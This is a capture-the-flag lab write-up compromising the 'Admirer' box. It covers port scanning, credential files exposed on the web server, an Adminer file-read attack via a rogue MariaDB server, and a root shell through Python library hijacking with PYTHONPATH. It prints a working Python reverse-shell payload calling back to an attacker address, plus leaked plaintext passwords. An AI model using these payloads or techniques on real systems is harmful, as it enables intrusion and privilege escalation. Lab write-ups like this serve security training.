# Admirer (`10.10.10.187`)

## Summary

FTP credentials leaked on port 80. Eventually, I find an Adminer login page, and use an Arbitrary File Read vulnerability to leak the current database credentials. The password is reused as `waldo`'s SSH password. I then use a python library hijacking technique to escalate to `root`.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `admirer.htb` to `10.10.10.187`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports admirer.htb
# Nmap 7.91 scan initiated Thu Dec 24 06:39:19 2020 as: nmap -A -v -p- -Pn -oN allports admirer.htb
Nmap scan report for admirer.htb (10.10.10.187)
Host is up (0.040s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/24%OT=21%CT=1%CU=31777%PV=Y%DS=2%DC=T%G=Y%TM=5FE47E
OS:23%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10D%TI=Z%CI=Z%TS=8)OPS(O1=
OS:M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7
OS:%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y
OS:%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.009 days (since Thu Dec 24 06:27:42 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   40.25 ms 10.10.14.1
2   40.25 ms admirer.htb (10.10.10.187)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 24 06:40:19 2020 -- 1 IP address (1 host up) scanned in 59.32 seconds
```

### Enumerating Port 80

`robots.txt` has one disallowed entry: `/admin-dir`. I run a `gobuster` search on that URL.


Two URLs are especially interesting:

```
http://admirer.htb/admin-dir/contacts.txt (Status: 200)
http://admirer.htb/admin-dir/credentials.txt (Status: 200)
```

```bash
$ curl http://admirer.htb/admin-dir/contacts.txt
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

```bash
$ curl http://admirer.htb/admin-dir/credentials.txt
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

### Enumerating FTP on Port 21

With these FTP creds, I can access the shares.



I download the files and explore the contents.



I find this file in the `html` backup file.



I navigate to the URL to see if the webpage is running. It is.



The `phpinfo` page I found in the archive works as well.





In `index.php`, I find some credentials for the database.



```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

I find another set here:



After some more enumeration, I find `http://admirer.htb/utility-scripts/adminer.php`.



I see `Adminer 4.6.2` is running.



I use this exploit technique to read arbitrary files off the server: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f. (Thanks for the tutorial, 0xdf.)

I start a MariaDB server on my Kali box.



I grant access to this database with `root:root` and allow all access from `root@10.10.10.187`. I also create a new table to be used in the exploit for exfiltrating data.



I now log in to my own MariaDB instance with the credentials I've just set.



I run an SQL query to read an arbitrary file from the server.



Back in `MariaDB`, I see the file populate in the table.



New credentials can be found here:

```php
$username = "waldo";   
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

And they work over SSH.




## Privilege Escalation

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

The contents of `/opt/scripts/admin_tasks.sh` are as follows. I see there is a path through the script to call `/opt/scripts/backup.py` as `root`. Let's check that script out.

```bash
#!/bin/bash

...

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

...

# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done
...
```

`/opt/scripts/backup.py` contains the following:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Since the `sudo -l` output contained `SETENV`, I can use a python library hijacking attack with `PYTHONPATH` to get a shell.

I create the following file: `/home/waldo/shutil.py`.

```python
import os
import pty
import socket

lhost = "10.10.14.27"
lport = 443

def make_archive(arg1, arg2, arg3):
    return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

I start a `nc` listener on port 443: `$ sudo nc -nvlp 443`.

I run the exploit and get a shell.



